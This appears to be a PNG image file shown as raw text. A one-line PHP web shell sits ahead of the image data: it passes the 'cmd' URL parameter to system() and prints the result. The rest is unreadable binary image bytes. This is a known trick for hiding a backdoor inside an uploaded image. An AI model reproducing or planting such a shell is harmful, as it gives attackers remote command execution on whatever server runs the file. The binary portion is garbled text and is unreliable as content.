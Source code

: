     <?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
    
    ^P<DB>zU^?<AD><CC>9<B9>^X^T<C6>Q<C9>畀S9<DC><C9><D2>s|<97>^^B<92>DPzۡ<E7>aN~P<FE><F6>]^Y<CE>1<9B>ު_^]<E6><BD>^F<8B>
    !hYI<BD>^^<9A>)O4<FB><86>}z<CF>H<B9>7~<E4>48<AF>iY<B6>,<96><CF>Ѽ<90><86><96><B9><92>u<C2>q<FE>^Q'_&̟<97><E3><81><EA>r<D4><E7>e<F3>ë^@Ys<EE>'i<BC>*<95><A1><DC>+<9B>z<F5>µ<9A><EA><9F>B\<F2>o&<EF><BD>:j<8F>p<93><9E><9E><94><EC>ׯ_́^B^@<9A><D0>G<E8>lPO<AB>Y<D0>^O<EA>^U<EE><D0>S
    <BD>"(<BD><A9><97>Ga<F4><85>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>ze<C3>0<B0><FA>^N^@Є<A1><A7><C7>:^@<C0><BF><8D><88><F4><A6><9E>^^<87><D1>^O<EA>^U<EE><D0>S<BD>"(<BD><89>'L܁z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><F8> <EB><9B><CE>>p<98>R<FE>^X<E6><F4>1g3'wض:^?<BD>9<84><D5>Fxfr<EE><FC>C<A6>1<FC>VH^ü#mP<88>qٻɜ<BC>sr<BB>sO<8F><F3><EE>t/<9F>}^Z<B9>,Aa,<DB>[<FC>^L'<BD><97><D7><CA>q8<BB><B2>^\uy<B9>H<E7><C5>s<F3><D7><C0><93><E4>^F<FD>T<EC><EB>Qw<CF><EB><CB>{Z<AF><AA><AF>U<FE><98>lX2S}?<F0>o<EB>郬^D<A5>7^]n<F0><D4><F8><99><93><F7><F9>K<DC>1D<85>QҰ4R)^D<8D>1<C9>Jca))Ơ<98>^O<DC>5 <F9>k<DE><DB><ED>^S<CA>^F~~<D9>^^#<84><A4>d<EB>mESC<96><E3><B6>yI<D2>0<9C>^D<C9><F5>n<A8><BB><86><ED><81><D7>ʱ;<B7><B2>^\<B5>yy<90><CA><EB>禜<87><FA><E3>+<EF>yuy<8F><F5><EA><A5>k5<E6><CD>^@<AD><EC><E9><95>b<C8>_^Lߥ<81><EF><D3>K@<92>^X<BE>{<DB>v<8C>v<DA>f<DC><C9>^O~<B5>^E<B9><93>)<AE><F6><C1>){☟<9F>Z<CC><E5>sL:<EE><97>S<B6>^U775xy<93><B8>a<F0><A5><A7><EC>5^L<BE><EC><B5>3<E5><A7><EC><C1>c<F9><EF>
    <B6>yI<C7>Fz<93><86><A4>yS<B9>a<B3>k<EA><EE><A4><D7>ʱ?<B7><AA>^\<B5>yy<E0><E5>ssPM<BA><DA>^Kj_<8E><CA>{^[^<9D>ի<BA>s<E7><ED>ٽ<D7><E0><9D><9C><9B><B6>MI<F3>.<B9><F8>^<CC>)}<81>m<CF>#o-.<E7><B6>^W<B4>lI<9E><CA>^V䛿z<F2>gi:o<D9>I<D4>|^N^B<DB>]Χ<9D>d<97>_<CA><C7>ك<E3><B6>9٧
    <91><F7><E5><B9>~<D2>y<B5>^\<87>s<AA><CA>Q<9F><97>^TG<FD><FE><FD>[a<FD><EF><EE><C5>r(<C5>^R<C4><CE>7<C4>;<A6>Q^?ϫ˫c<8F><B6><EE>ܤ<94>3<B3>^]<D2>3<A7><E1><E7>G^C<C3>w_<8F>'<A5>/<B0><E9>y<94>^F<C8>^N<F3>5e<9B><D1>4ͻ<98><9C><B7><<EC>^SK<A3><95>r<8F>{<DA>!t<99>w8<B5><D2>ESC
    <DF>OV<94><DF>Y<A2>J><AC>vǝ<A5><A1><B9>Q<BD><F6>J9Nέ*Gm^<96><DF><DD><EE><A6><F8>ʹI!D<C9><FC><E9><9C><D6>i^Z<AF><DC><F3><DA><F2>jߣ<AD>=<B7>lC^?<B9><E3>/<BE>YOOJ<CC>)<BD>i<D3><F0>N<F3><CA>'<C7><D9><FA>^X<93><CC>y
    ^Z<C3>8<EF>P;<ED>^V<BB>^]f<CA>=q<DB>?<F1>hwL^Yr:^?"(<8D>Uzt\M^Z<E7><EA><CB>Q<E3>Y9<9E><E5>e<D0><CF>^Gݫ^T<83>b2<F9>2<C4>Y<95><C6>^K<F7><FC>$Ň<E5>}ޣ=9w<B5>!n^L<A3><E2><D4>QP<C5>N<C0><F8>
    ==)^Q<94>޴]<CD>r5f<BF>_^U^W5<86><BC>@<C0>m^V^H<EC>&<A4>SR<92><9D><AE><96><9B><D2>L!ϛ<D8><C9>j<AF><9C>Vȓ<E4>R^Y<CE><DA>^]<F7>4<8D>Ǫ<CB><F1><FC><97><9E><96><E3>Veq<83><F9><FD>^B<90><A7>'^<FC><DD><D5>^O]<97><F7>z<95><D4><F5><B9>)^F<85><B2><CA>r<FA>s^L<A3><92>^F<86><F0><BE>^\<AB><EF><BE><C0><F6>^F<E7><85>^H<E7><D6><DD><E5><A8>X<86><89><E6>y^B+=<DE>ߣb<88>r<F3><D2><EF>(<E9><D1>^PTR^Lci<9C>^^78f^ާ||̫<EF>Ҫ<E7>|<9D>ƕ<FA>r\<AB>+<C7>}<F2>
    <BD>dk<EF><F9>><BD><EB><F2>^^E<A4><A7><D7><CA>\Y^D1<FD>X<B9>^_1*9<CF><D0><DE>^W<EB>% I<CC>)<BD>m3F;<8F><A2>^\ESC<A9>i^X%<B7>aIQ<EB><E5><D7><CB>^O<98><D3>j^^<E2>j<8E><A0>,<FD>-+<CB>.ESCS<9B><E6>$<BC><86>a<90><B3>i<C5>س4<9E><A8>.<C7><E5><8F>ԗ<E3>&<F3><8A>5<B7>
    <A0><F3>B<90><B3><BB><B9>R{<CF>W<FF><B7><A6><BC><E7>c<FF>OΝ<A7>^S^_ݏ'e<C1>?<8F>9<A5>/<B0><E9>y<94><C6><E0><B8><F2>v^Z<EC><AF>h<F8><D7><E7><A6>2<D7>s<E8>ݔ<DE>r<BA><98>+HI1<A5><93><89>~<CB><F3><E2><D3>^D<FD><C3>4>T<D5><FA>U<94><E3>/<98><96>J<C7>ͼX^Q<83><C6>^X<E4><FC><CF>
    <F9>^\<D9>K<C7>^^m͹<F9>ަ<D5><DC>^R<B0>Ɠ<D2>^W8<AC><92>2I1j<F3><8A>N<8A><CA><EF>=.+<E8><F2><D0>ܾ<E7>Z<9E>Z<AC><F4><D8>S,s=<DB>4<D3><FC><EE><CD>U<C3>6<BD>4<BA>^?Z<C9>/<C9>Nyx<94>F<9D><CA>r<<CA>aU9<EE><E7>ܠa<D8><FD><E7><CB>0<97>y<F9>Ë<C6>k<B5><F7><FC><B5><F2><EE>{<B4>u<E7>
    <96>y<C1>^TwA2<E6>{<FE><E4>~<E0><DF>Ǔ<D2>^W<D8><CF>)9<EF>^UǠ^P<A4><E4><96>7<EF>%<B7>4&<E6><E4>]<D4>^X<F3>q<CB>ESC<FF><A1>,<A5><CE>^MY~<D2><F1><BB><D5><C2><E5><A5>X<95><DF>><BC><A0>j<B9>!4<93>sR<88>AcJ%<ED><FC>I<A0>(<C9><CA>^\<D0>y^Zy<9E>i^^<C0>J<CB><FF><8B><9B>4<EA><CA>q
    <AE><B2>^\<B5>y<91><CA>W^O$7<AC><BF>jQS<8E><93>|<9A>dAJ<B6>]^@rL<A3><F2><9E><BF>P^i_<AF><EA><CF>5<E7><E4>bP^XG%<9F>W^QN<E5><DD>^LO<E2>+<F5><F4><A4>DPz<D3>a5<8B>9<F9>A<F9>;he(<C8>lz<AB>~u<98><F7>^Z,*<84><A0>e%<F5>zh<A6><<D1><EC>ESC<F6><E9>=#%<85><B0>^_k<92>$<A7><C1>yM˲e
    <B1>|<8E><E6><85>4<B4>̳<AC>^S<8E><F3><8F>8<F9>2a<FE><BC>^\^OT<97><A3>>/<9B>^_^^E<C8><FA>sk<ED><C6><C7>j<EE><F9>^K<E5><95>v<F5><EA><95>sK^^T<E2>RN3y<EF><D5>Q{<84><9B><F4><B4><FA><CE>~<FD><FA><C5>^\(^@<A0>        }<84><CE>^F<F5>4F<8B>~P<AF>p<87><9E><EA>^UA<E9>M<BD><
    <A3>/<D4>+ܡ<A7>z<D5>ONESC<D3>S<CF>^C<FD><A0>^<E1>^N=<D5>+<82>қz<EA>y<A0>^_<D4>+ܡ<A7>z<D5>ONESC<D3>S<CF>^C<FD><A0>^<E1>^N=<D5>+ESC<86><81><D5>w^@<80>&^L==<D6>^A^@<FE>mD$^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA      ^@<D0>^L<82>^R^@<A0>^Y^D%^@@3<FE>^C^Yb^Pi쏒<BB>^@^@^@^@IEND<AE>B`<82>
    